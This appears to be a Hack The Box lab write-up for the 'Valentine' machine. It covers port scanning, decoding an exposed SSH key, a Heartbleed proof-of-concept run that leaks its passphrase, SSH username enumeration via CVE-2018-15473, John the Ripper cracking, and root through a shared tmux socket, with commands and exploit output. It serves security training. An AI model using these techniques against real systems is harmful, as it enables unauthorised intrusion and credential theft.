

# Valentine

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Easy |
| **Topics** | OpenSSH 5.8 (CVE-2018-15473), SSH User Enumeration (CVE-2018-15473), Heartbleed Attack, Heartbleed Vulnerability, TMUX, Brute Force, Password Cracking SSH |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

Stealth Scan

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.79 -oN AllPorts
```

Result:

```bash
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

TCP/Version Scan

```bash
nmap -p 22,80,443 -sCV -Pn -n -vvv 10.10.10.79 -oN FullScan
```

Result:

```bash
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAIMeSqrDdAOhxf7P1IDtdRqun0pO9pmUi+474hX6LHkDgC9dzcvEGyMB/cuuCCjfXn6QDd1n16dSE2zeKKjYT9RVCXJqfYvz/ROm82p0JasEdg1z6QHTeAv70XX6cVQAjAMQoUUdF7WWKWjQuAknb4uowunpQ0yGvy72rbFkSTmlAAAAFQDwWVA5vTpfj5pUCUNFyvnhy3TdcQAAAIBFqVHk74mIT3PWKSpWcZvllKCGg5rGCCE5B3jRWEbRo8CPRkwyPdi/hSaoiQYhvCIkA2CWFuAeedsZE6zMFVFVSsHxeMe55aCQclfMH4iuUZWrg0y5QREuRbGFM6DATJJFkg+PXG/OsLsba/BP8UfcuPM+WGWKxjuaoJt6jeD8iQAAAIBg9rgf8NoRfGqzi+3ndUCo9/m+T18pn+ORbCKdFGq8Ecs4QLeaXPMRIpCol11n6va090EISDPetHcaMaMcYOsFqO841K0O90BV8DhyU4JYBjcpslT+A2X+ahj2QJVGqZJSlusNAQ9vplWxofFONa+IUSGl1UsGjY0QGsA5l5ohfQ==
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRkMHjbGnQ7uoYx7HPJoW9Up+q0NriI5g5xAs1+0gYBVtBqPxi86gPtXbMHGSrpTiX854nsOPWA8UgfBOSZ2TgWeFvmcnRfUKJG9GR8sdIUvhKxq6ZOtUePereKr0bvFwMSl8Qtmo+KcRWvuxKS64RgUem2TVIWqStLJoPxt8iDPPM7929EoovpooSjwPfqvEhRMtq+KKlqU6PrJD6HshGdjLjABYY1ljfKakgBfWic+Y0KWKa9qdeBF09S7WlaUBWJ5SutKlNSwcRBBVbL4ZFcHijdlXCvfVwSVMkiqY7x4V4McsNpIzHyysZUADy8A6tbfSgopaeR2UN4QRgM1dX
|   256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+pCNI5Xv8P96CmyDi/EIvyL0LVZY2xAUJcA0G9rFdLJnIhjvmYuxoCQDsYl+LEiKQee5RRw9d+lgH3Fm5O9XI=
80/tcp  open  http     syn-ack Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http syn-ack Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413c4f0b1452154fb54b2dec7a9809d
| SHA-1: 230380da60e7bde72ba676dd52143c3c6f5301b1
| -----BEGIN CERTIFICATE-----
| MIIDZzCCAk+gAwIBAgIJAIXsbfXFhLHyMA0GCSqGSIb3DQEBBQUAMEoxCzAJBgNV
| BAYTAlVTMQswCQYDVQQIDAJGTDEWMBQGA1UECgwNdmFsZW50aW5lLmh0YjEWMBQG
| A1UEAwwNdmFsZW50aW5lLmh0YjAeFw0xODAyMDYwMDQ1MjVaFw0xOTAyMDYwMDQ1
| MjVaMEoxCzAJBgNVBAYTAlVTMQswCQYDVQQIDAJGTDEWMBQGA1UECgwNdmFsZW50
| aW5lLmh0YjEWMBQGA1UEAwwNdmFsZW50aW5lLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMMoF6z4GSpB0oo/znkcGfT7SPrTLzNrb8ic+aO/GWao
| oY35ImIO4Z5FUB9ZL6y6lc+vI6pUyWRADyWoxd3LxByHDNJzEi53ds+JSPs5SuH1
| PUDDtZqCaPaNjLJNP08DCcC6rXRdU2SwV2pEDx+39vsFiK6ywcrepvvFZndGKXVg
| 0K+R3VkwOguPhSHlXcgiHFbqei8NJ1zip9YuVUYXhyLVG2ZiJYX6CRw4bRsUnql6
| 4DFNQybOsJHm0JtI2M9PefmvEkTUZeT/d0dWhU076a3bTestKZf4WpqZw60XGmxz
| pAQf5dWOqMemIK6K4FC48bLSSN59s4kNtuhtx6OCXpcCAwEAAaNQME4wHQYDVR0O
| BBYEFNzWWyJscuATyFWyfLR2Yev1T435MB8GA1UdIwQYMBaAFNzWWyJscuATyFWy
| fLR2Yev1T435MAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQEFBQADggEBACc3NjB7
| cHUXjTxwdeFxkY0EFYPPy3EiHftGVLpiczrEQ7NiHTLGQ6apvxdlShBBhKWRaU+N
| XGhsDkvBLUWJ3DSWwWM4pG9qmWPT241OCaaiIkVT4KcjRIc+x+91GWYNQvvdnFLO
| 5CfrRGkFHwJT1E6vGXJejx6nhTmis88ByQ9g9D2NgcHENfQPAW1by7ONkqiXtV3S
| q56X7q0yLQdSTe63dEzK8eSTN1KWUXDoNRfAYfHttJqKg2OUqUDVWkNzmUiIe4sP
| csAwIHShdX+Jd8E5oty5C07FJrzVtW+Yf4h8UHKLuJ4E8BYbkxkc5vDcXnKByeJa
| gRSFfyZx/VqBh9c=
|_-----END CERTIFICATE-----
|_ssl-date: 2023-01-18T03:07:42+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
```

> Note: This SSH version is vulnerable to CVE-2018-15473. Refer to `22 - Pentesting SSH Username Enumeration`
> 

Nmap Scan HTTPS

```bash
nmap -p 80,443 --script "http-enum*" -Pn -n 10.10.10.79 -oN NmapHTTPScan
```

Result: 

```bash
PORT    STATE SERVICE
80/tcp open  http
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder

443/tcp open  https
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
```

We can see both ports hosting the same content. 

### Dirbuster Fuzzing



Found more relevant paths/folders. 

### Nikto Scan

```bash
nikto --host http://10.10.10.79     
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.79
+ Target Hostname:    10.10.10.79
+ Target Port:        80
+ Start Time:         2023-01-17 22:07:57 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.26
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 121971, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8674 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2023-01-17 22:26:02 (GMT-5) (1085 seconds)

```

# Initial Access

After the initial enumeration, we found 2 interesting files being hosted on the path `10.10.10.79/dev`, one identified as `hype_key`, and the other one identified as `notes.txt`

Content from `/dev/hype_key`:


Based on the content, this seems to be some kind of special key encoded on Hexadecimal. 

Content from `/dev/notes.txt`


Based on the content, it looks like instructions for the previous key, apparently we need to decode the key.

From the dirbuster scan we were able to find 2 additional directories related to the encoder and decoder that is being mentioned on those instructions: 


Encoder: `https://10.10.10.79/encode.php`


Decoder: `https://10.10.10.79/decode.php`


Checking the encoder function, it looks like that it translates any string we provide to base64 code: 

For instance, if we type “test”


We get: 


Which after decoding it using base64, we get the same initial string: 


However, the content from `hype_key` is not on Base64 code, it’s on Hexadecimal code, hence, let’s try to decode it using `curl` to get the file in plain text and pass it to `xxd` command decoder:


Bingo!! We have a SSH RSA Key, but the downside is that it’s password protected, so, even though we can use it to connect via SSH without providing the user’s password, we will need the password phrase for the SSH key. 

However, we can try to crack the passphrase using John the Ripper.

First, let’s transfrom the hash into a format that JTR admits, for this task we use `ssh2john`:

Command: 

```bash
ssh2john id_rsa > hash_id_rsa ## the id_rsa is the file containing the key
                              ## we save the hash into a new file called hash_id_rsa
```

Onced we have the proper hash format, we can proceed to crack the hash using `John the ripper`:

Command:

```bash
sudo /opt/john/run/john hash_id_rsa ## We don't have to specify the format
																    ## JTR automatically recognizes the format
```

> Note: To crack specifically SSH Private Keys, we use the format <`--format=ssh-opencl`>
> 


However, after few minutes, it looks like the hash is not crackeable, hence, we need to find another possible vector of attack. 


Let’s try to run additional scans for the HTTP ports, but this time we will focus on the Vulnerabilty Scripts:

How to locate the scripts:


Execute the scan:

```bash
nmap -p 80,443 --script "http-vuln*" -n -Pn 10.10.10.79
```

Result: 


No success, no relevant data was found. 

Let’s try now with a SSL Vulnerability scan:

How to locate the scripts:


Execute the scan:

```bash
nmap -p 443 --script "ssl-*" -n -Pn 10.10.10.79
```

Result: 

From the result we can see several vulnerabilities found on this server, as a summary:

```bash
#1
ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.

#2
| ssl-poodle: 
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  CVE:CVE-2014-3566  BID:70574
|						The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.

#3
ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
```

Checking the results we can see 3 possible attacks, however, `ssl-ccs-injection` and `ssl-poodle` are not suitable for what we want, as those are more intended for Man in the middle attacks. 

This leave us with the last option, which is `ssl-heartbleed`, this vulnerability will allow us to steal/reaveal sensitive information from the server. 

Let’s do a simple search on Google about SSL Hearbleed attacks specifically for exploits on Github


Examine the first result: 


Repository: 

[GitHub - mpgn/heartbleed-PoC: Hearbleed exploit to retrieve sensitive information CVE-2014-0160](https://github.com/mpgn/heartbleed-PoC#exploit)

Explanation: 

```bash
Exploit
The exploit start by sending the handshake to the target server to create the secure connection with tls. Then the function hit_hb(s) send a typycall heartbeat request :

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

Explanation of heartbeat (bf)call :
18 : hearbeat record
03 02 : TLS version
00 03 : length
01 : hearbeat request
40 00 : payload length 16 384 bytes check rfc6520
"The total length of a HeartbeatMessage MUST NOT exceed 2^14" If we enter FF FF -> 65 535, we will received 4 paquets of length 16 384 bytes
We wait for the response of the server and then we unpack 5 bytes (the header) of the tls packet (content_type, version, length) = struct.unpack('>BHH', hdr)

After that we read the rest of the request due to the length we get from the header. The data are stored in the file òut.txt.

Note: the attack can be made in the handshake phase before the encryption but for simplicity, this exploit start after the handshake.

Run it !
You must have python 2.7.* installed on your computer (not tested on python 3)

python2 heartbleed-exploit.py www.cloudflarechallenge.com
```

So, based on the explanation, the script will send a request for a handshake to the target server, then when the connection is established, a heartbeat request is send, 

Then, we wait for the response which will contain leaked data (header of the TLS packet) from the server, this data is later stored on the filename `out.txt` 

Proceed to download the exploit and execute it as follows (use python2):

```bash
python2 heartbleed-exploit.py 10.10.10.79
```

> Note: we don’t need to specify the port. Port 443 is configured as default.
> 

Result:

```bash
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
```

We can see that the exploit was succesful and data was saved into file `out.txt`

Check the file’s data:


> Note: In order to see only the relevant data we just `cat` the file but also apply an inverse `grep` filter to the file to remove the lines with `00` as those lines do not contain any relevant information.
> 

From the output we can see a base64 string that looks interesting:

```bash
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.
```

Proceed to decode this string: 


Success! This seems to be a password phrase which may be related with the SSH Key. 

This can be confirmed if we re-execute `John the ripper` but now including the word `heartbleedbelievethehype` within the dictionary.

Save the passphrase in a new wordlist:


Execute John using the wordlist that contains the password we just found:


Success! We can see the passphrase for this SSH Key is `heartbleedbelievethehype`

 However, we are still missing a valid username to use the SSH Key, for this, let’s try to use the same words included in `heartbleedbelievethehype` but this time as a user, so, our list should look like this:

```bash
heart
bleed
believe
thehype
hype
root

```

> Note: I also added the user `root` as we know that this user is enabled by default.
> 

As mentioned earlier on this writeup, the OpenSSH for this server is vulnerable to [**`CVE-2018-15473`**](https://github.com/Sait-Nuri/CVE-2018-15473)

That means that any version between 2.3 and below 7.7 is vulnerable to SSH User Enumeration. 

Current Version: OpenSSH 5.9p1


Based on this, we can automate this task by using the following exploit:

https://github.com/Sait-Nuri/CVE-2018-15473

Download the exploit and execute it as follows: 

Command: (Use python3)

```bash
python3 CVE-2018-15473.py TARGET-IP -w username-wordlist.txt
```

Execute:


Success! We can see that users `hype` and `root` are valid. Also, it’s probably that the SSH Key belongs to the user `hype`, since the hexadecimal code we extracted at the beginning was initially stored on path`/dev/hype_key`. 

Now we have a valid Username and the passphrase for its SSH Private Key, let’s try to login: 


> Note: there is an issue with this machine as it does not accept ssh-rsa as algorithm, hence, we need to the argument `-o PubkeyAcceptedKeyTypes=+ssh-rsa`
> 

User flag: 


# Privilege Escalation

Once we have logged as `hype` we need to identify potential vectors of privelege escalation, usually we can check id, groups, file passwd and shadow, cron jobs and writable files.

First by checking the ID we didn’t get much information we can use:


Sudo privileges:


But it asks for the user password, however, we only have ssh private key password, not the actual user password. 

Files passwd and shadow:


> Files are not writable
> 

Cronjobs:


** No relevant results **

Writable Files:

```bash
#Command 
find / -writable -type f 2>/dev/null | grep -vE "proc|sys"
```

** No relevant results ** 

SUID Privileges:

```bash
find / -perm -4000 2>/dev/null
```

** No relevant results ** 

Services running as root:

```bash
ps aux | grep root
```

** No relevant results ** 

Checking the user history:

```bash
history && cat /home/hype/.*history
```

Succes, We found something interesting from the history file:

```bash
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

From the history file we can see that the user was using `TMUX`, and actually created a socket file on `/.devs/dev_sess`, this socket file contains an interactive console of the user who initially created it. 

Let’s check who is the owner:


This indicates the actual user is `root`, who was the creator of this socket file, but also we can see that it has the group owner as `hype.` 

Based on this, we can try to connect to that socket file using tmux again:

```bash
tmux -S /.devs/dev_sess
```

As a result, we will get an interactive shell as `root`:


[Owned Valentine from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/127)